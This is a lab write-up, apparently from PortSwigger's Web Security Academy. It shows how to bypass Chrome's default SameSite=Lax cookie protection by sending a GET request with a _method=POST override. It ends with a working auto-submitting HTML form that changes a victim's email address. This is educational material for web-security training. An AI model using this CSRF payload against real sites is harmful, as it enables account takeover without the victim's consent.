





# Lab: SameSite Lax bypass via method override

> Lab Objective: perform a CSRF attack that changes the victim's email address.

- Login using provided credentials `wiener:peter`, using Google Chrome as a browser.

- Inspect the Login's Request and Response.
  

- You'll notice that the website doesn't enforce any SameSite restrictions explicitly, therefore the Browser will enforce `SameSite=Lax` restriction, which includes the cookie in two cases:

  - The request is originated from same-site.
  - The request is generated from cross-site through top level navigation through a `GET` request only.

- Change your Email, then inspect the Request and Response.
  

- Try to change the Request method from `POST` to `GET`, you'll notice that `GET` method is not allowed.
  

- But when adding `_method=POST` as a url string parameter, the request is accepted.
  

- Therefore, in order to bypass this issue, I want to send a `GET` request and override the method to `POST` request.

- Accomplish this through the following payload:

```html
<html>
  <body>
    <form
      action="https://0a88002a0372a6bb8086179b00140053.web-security-academy.net/my-account/change-email"
      method="GET"
    >
      <input type="hidden" name="email" value="hacker@gmail.com" />
      <input type="hidden" name="_method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- The Lab is solved successfully.
  
